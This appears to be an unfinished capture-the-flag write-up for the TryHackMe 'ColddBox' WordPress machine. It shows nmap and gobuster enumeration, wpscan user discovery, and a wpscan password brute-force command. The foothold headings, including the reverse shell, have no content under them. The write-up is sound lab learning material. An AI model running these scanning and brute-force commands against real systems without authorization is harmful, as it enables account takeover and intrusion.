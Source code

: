 ColddBox 
**Fecha:** 1-09-2025 
**Plataforma:** TryHackMe

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-title: ColddBox | One more machine
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

**Summary**
* 80/tcp open http (Apache/2.4.18)

---
## Web Enumeration (Gobuster)

```bash
  gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

## Users Enumeration

```bash
  wpscan --url http://$IP --enumerate u 
```

**Result**
```bash
[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

---

**Brute Force**
```bash
  wpscan --url http://$IP --usernames wp-users.txt --passwords /usr/share/wordlists/rockyou.txt
```
<details><summary><i>wp-users.txt</i></summary>

```bash
the cold in person 
c0ldd 
hugo 
philip
```
</details>

**Result**
```bash

```
## Foothold
**Reverse Shell**

**Upload Script**

**Listen Port**

**Upgrade Shell**
